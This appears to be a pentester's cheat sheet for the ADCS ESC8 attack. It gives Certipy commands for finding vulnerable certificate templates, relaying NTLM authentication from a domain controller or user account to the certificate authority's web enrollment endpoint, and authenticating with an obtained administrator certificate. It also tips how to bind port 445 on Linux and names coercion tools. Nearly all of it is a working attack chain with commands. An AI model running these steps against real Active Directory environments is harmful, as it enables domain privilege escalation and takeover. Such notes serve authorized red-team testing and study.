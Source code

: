 # ADCS ESC8

%adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. NTLM Relay (Relaying Domain Controller account)
```
certipy relay \
    -target 'https://<IP_ADDRESS>' -template 'DomainController'
```

## 2b NTLM Relay (Relaying User account)
```
certipy relay -target 'https://<IP_ADDRESS>'
```

## Tip: If you get a 'permission denied' while trying to listen on port 445, you can use the command (on Linux): 'echo 0 | sudo tee /proc/sys/net/ipv4/ip_unprivileged_port_start'

## 3. Coerce Authentication with other tool (Petitpotam, Coercer)

## 4. Certipy relays the authentication and requests a certificate

## 5. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP>
```
